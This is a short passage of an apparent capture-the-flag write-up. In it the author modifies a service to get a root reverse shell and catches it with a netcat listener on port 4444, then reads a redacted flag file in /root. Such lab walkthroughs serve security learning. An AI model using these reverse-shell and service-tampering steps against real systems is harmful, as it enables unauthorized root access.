 I went back to the terminal opened as server-admin. I reverted my changes to the service and restarted it. When I went to the web site again, my text was there. But there was still no flag to be found. 

I changed the service again to be able to connect as root. When I got the reverse shell, there was a new file in the root folder. 

```bash
$ nc -lknvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.223.228 34824

cd /root

ls
flag3.txt

cat flag3.txt
REDATED
```

